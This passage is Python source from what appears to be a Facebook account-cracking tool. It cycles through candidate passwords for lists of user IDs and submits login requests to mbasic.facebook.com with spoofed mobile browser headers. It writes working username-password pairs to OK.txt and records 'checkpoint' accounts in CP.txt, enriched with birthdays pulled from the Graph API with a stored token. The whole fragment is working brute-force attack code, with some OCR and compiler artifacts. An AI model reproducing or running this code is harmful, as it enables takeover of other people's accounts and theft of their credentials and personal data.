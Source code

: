    _headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
   po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
   if 'c_user' in ses.cookies.get_dict():
    AYAN_ARAIN('\r\033[1;32m[Successful-AS] %s | %s      ' % (user,pw))
    wrt = '%s - %s' % (user,pw)
    ok.append(wrt)
    open('OK.txt','a').write('%s\n' % wrt)
    break
    continue
   elif 'checkpoint' in ses.cookies.get_dict():
    try:
     token = AYAN('token.txt').read()
     cp_ttl = Prof_Ayan('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
     month, day, year = cp_ttl.split('/')
     month = bulan_ttl[month].AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s • %s %s %s%s      ' % (user,pw,day,month,year,tahun(user)))
     wrt = '%s - %s - %s %s %s%s' % (user,pw,day,month,year,tahun(user))
     cp.append(wrt)
     open('CP.txt','a').write('%s\n' % wrt)
     break
    except (KeyError, IOError):
     month = ''
     day   = ''
     year  = ''
    except:
     pass
    AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s%s      ' % (user,pw,tahun(user)))
    wrt = '%s - %s%s'%(user,pw,tahun(user))
    cp.append(wrt)
    open('CP.txt','a').write('%s\n' % wrt)
    break
    continue
  loop += 1
 def __mfb__(self, user, _sempak_):
  global ok,cp,loop
  sys.stdout.write('\r\033[1;97m [AS007] %s/%s  \033[1;92mOK-:%s / \033[1;91mCP-:%s'%(loop,len(self.id),len(ok),len(cp))),
  sys.stdout.flush()
  for pw in _sempak_:
   pw = pw.lower()
   try: os.mkdir('')
   except: pass
   try:
    ua_xiaomi = AYAN('agent.txt', 'r').read()
   except (KeyError, IOError):
    ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
   ses = requests.Session()